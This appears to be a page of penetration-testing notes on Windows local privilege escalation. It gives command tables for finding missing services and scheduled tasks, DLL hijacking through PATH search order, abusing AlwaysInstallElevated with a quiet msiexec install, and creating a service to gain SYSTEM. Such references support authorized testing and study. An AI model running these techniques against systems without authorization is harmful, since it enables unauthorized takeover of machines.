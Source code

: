 |Command|Description|
|---|---|
|reg query "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Session Manager\\Environment"|show full path variable|

# Missing Service

|Command|Description|
|---|---|
|autorunsc64.exe -a s \| more | Enumerate autoruns |

## Addt'l Notes
- Looking for writable directories that result in a File Not Found error.

# Missing Task

|Command|Description|
|---|---|
|autorunsc64.exe -a t \| more | Looks for tasks that have missing executables|
|schtasks /query /tn \$TaskName /xml | Queries task specified by Taskname and outputs results to XML|
|wmic useraccount where sid='\$SID'|If a SID is specified, you can also check via that|

# DLL Hijacking

|Command|Description|
|---|---|
|dumpbin /imports c:\\Path\\To\\EXE.exe|Dumps all imports performed within a binary|

## Addt'l Notes
- You can abuse PATH search order and place your malicious DLL where it looks first. DLL must match the full name of the file that is being looked for.

# Getting SYSTEM

## AlwaysInstallElevated

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
msiexec /quiet /qn /i c:\Path\To\MSI.msi
```

### Addt'l Notes
- If you see the 2 values set, any user can run msi installers and install software on the computer
- Use MSIwrapper to convert EXEs to MSIs

## New Service for SYSTEM

`sc create \$ServiceName binPath="C:\\Path\\To\\EXE.exe"`
